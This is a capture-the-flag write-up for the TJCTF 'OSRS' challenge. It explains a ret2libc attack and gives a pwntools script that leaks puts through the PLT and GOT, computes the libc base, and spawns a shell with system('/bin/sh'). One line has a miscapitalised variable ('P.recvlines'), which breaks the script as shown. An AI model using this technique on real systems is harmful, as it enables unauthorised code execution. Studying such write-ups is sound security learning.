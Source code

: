 # OSRS

There is literally zero protections.  

We *could* do ret to shellcode, but there's no jmp esp and the shifts with the buffer can be very temperamental.  
Instead, I used ret2libc, which is a lot more reliable.  

Via the GOT and PLT, we can execute a simple leak of the address of puts.   
Feeding this value into libc database find, their libc version is libc6-i386_2.27-3ubuntu1_amd64  

So, we can use the GOT and PLT to leak the address of puts and call main again.  
Then, we can subtract the appropriate value from this to get the libc base.  
Since we called main again, we get a second input, to which we can deliver the main payload of system("/bin/sh").  

```python
from pwn import *
NUM_TO_RET = 0x10c + 4
padding = b'A' * NUM_TO_RET
e = ELF("./osrs")
leak = flat(padding, e.plt['puts'], e.symbols['main'], e.got['puts'])
libc = ELF("/home/kali/Tools/libc-database/libs/libc6-i386_2.27-3ubuntu1_amd64")
p = remote("p1.tjctf.org", 8006)
p.recvuntil(": ")
p.sendline(leak)
P.recvlines(2)
output = p.recvline() # Our leak of the puts address
puts = u32(output[:4])
log.info(f"Puts address: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
final = flat(padding, libc.symbols['system'], libc.symbols['exit'], next(libc.search(b"/bin/sh\x00")))
p.sendline(final)
p.interactive()
```
